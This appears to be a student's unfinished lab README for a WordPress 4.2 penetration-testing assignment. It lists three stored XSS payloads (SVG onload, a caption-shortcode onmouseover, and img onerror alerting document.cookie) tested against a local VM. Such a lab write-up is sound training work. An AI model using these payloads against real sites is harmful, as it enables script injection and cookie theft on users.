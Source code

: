 # Project 7 - WordPress Pen Testing

Time spent: **12** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pen Testing Report

### 1. (Required) Vulnerability Name: XSS 

- [ ] Summary: 
  - Vulnerability types: XSS
  - Tested in version: 4.2
  - Fixed in version: 4.2.3
- [ ] GIF Walkthrough: <img src=xss.gif />
- [ ] Steps to recreate: 
  - Create a new post
  - type this line of code in the text editor: http://wpdistillery.vm/<svg onload=alert('test')> 
- [ ] Affected source code:

  
### 2. (Required) Vulnerability Name: XSS

- [ ] Summary: 
  - Vulnerability types: XSS
  - Tested in version: 4.2
  - Fixed in version: 4.2.3
- [ ] GIF Walkthrough: <img src=XSS2.gif />
- [ ] Steps to recreate: 
  - Create a new post
  - type this line of code in the text editor: <a href="[caption code=">]</a><a title=" onmouseover=alert(1) ">link</a>
- [ ] Affected source code:


### 3. (Required) Vulnerability Name: XSS

- [ ] Summary: 
  - Vulnerability types: XSS
  - Tested in version: 4.2
  - Fixed in version: 4.2.3
- [ ] GIF Walkthrough: <img src=XSS3.gif />
- [ ] Steps to recreate: 
  - Create a new post
  - type this line of code in the text editor: <img src=X onerror=alert(document.cookie)>.jpg 
- [ ] Affected source code:


## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with  ...
<!-- Recommended GIF Tools:
[Kap](https://getkap.co/) for macOS
[ScreenToGif](https://www.screentogif.com/) for Windows
[peek](https://github.com/phw/peek) for Linux. -->

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
